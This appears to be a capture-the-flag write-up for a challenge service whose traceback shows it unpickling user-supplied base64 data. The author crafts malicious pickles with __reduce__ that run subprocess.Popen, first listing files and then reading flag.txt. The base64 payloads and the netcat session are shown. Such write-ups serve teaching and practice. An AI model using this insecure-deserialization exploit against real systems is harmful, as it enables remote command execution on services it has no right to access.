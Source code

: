     The above exception was the direct cause of the following exception:

    Traceback (most recent call last):
      File "/home/challenger/app.py", line 46, in <module>
        main()
      File "/home/challenger/app.py", line 37, in main
        dec = decrypt(to_dec)
      File "/home/challenger/app.py", line 24, in decrypt
        return pickle.loads(codecs.decode(to_dec.encode(), "base64"))
    binascii.Error: decoding with 'base64' codec failed (Error: Incorrect padding)i

The error disclose the use of the python pickle which are know to be vulnerable
an allowing command execution.

We create a pickle to execute OS commands on the system:

    :::text
    >>> import pickle
    >>> import subprocess
    >>> import base64
    >>>
    >>> class RunBinSh(object):
    ...   def __reduce__(self):
    ...     return (subprocess.Popen, (('ls',),))
    ...
    >>> print base64.b64encode(cPickle.dumps(RunBinSh()))
    b'gASVIwAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwCbHOUhZSFlFKULg=='


We decode the generate pickle

    :::text
    $ nc cha.hackpack.club 41704
    [*] Welcome to our Super Secure Message Encrypter (SSME - copyright pending)
    [*] We use patented technology that only we have access to in order to safely encrypt your data
    [*] Please use this tool to encrypt/decrypt messages

    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > 2
    Please enter the encrypted string here: gASVIwAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwCbHOUhZSFlFKULg==
    [+] Message decrypted: <subprocess.Popen object at 0x7f2b6d9a9550>

    [*] Please select from the following options
    1.) Encrypt a message
    2.) Read a message
    3.) Quit
    > app.py
    flag.txt

We generate a new pickle to read the flag:

    :::text
    >>> class RunBinSh(object):
    ...   def __reduce__(self):
    ...     return (subprocess.Popen, (('cat', 'flag.txt',),))
    ...
    >>> print(base64.b64encode(pickle.dumps(RunBinSh())))
    b'gASVLwAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwDY2F0lIwIZmxhZy50eHSUhpSFlFKULg=='
